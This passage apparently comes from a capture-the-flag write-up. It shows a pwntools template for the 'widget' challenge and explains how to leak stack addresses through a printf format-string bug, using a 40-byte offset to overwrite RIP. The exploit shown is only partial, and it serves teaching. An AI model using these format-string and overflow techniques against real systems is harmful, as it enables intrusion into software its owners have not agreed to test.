 ### Leaking Addresses With printf

We first create a template to work with the binary using pwntools.

```python
#!/usr/bin/env python3

from pwn import *
import subprocess

def amount(m):
    global p
    p.sendlineafter(b'Amount: ',m)

def content(m):
    global p
    p.sendlineafter(b'Contents: ',m)

elf = context.binary = ELF("./widget_patched",checksec=False)
url,port = "challs.actf.co", 31320

if args.REMOTE:
    p = remote(url,port)
else:
    p = elf.process(aslr=False)

if args.GDB:
    gdb.attach(p)
    
payload = "test"

amount(str(len(payload)).encode()) # amount should always be equal to len(content)
content(payload)

p.interactive()
p.close()
```

Using `gdb`, we can find that the offset to overwrite RIP is **40** bytes, so our RBP value is at **32** bytes (8 bytes for 64-bit binary).

We first need to find a helpful address to leak.\
We can do this using `gdb`, by setting a breakpoint at the `ret` of main and sending the content as %\<int>$p (where \<int> is a positive integer).

For the initial leak, we want to find any value that we can distinguish on the stack, so we try different \<int> until we get a suitable value.

<figure><img src="../../../.gitbook/assets/image (10) (4).png" alt=""><figcaption><p>break at ret</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (6) (3).png" alt=""><figcaption><p>leaked value</p></figcaption></figure>
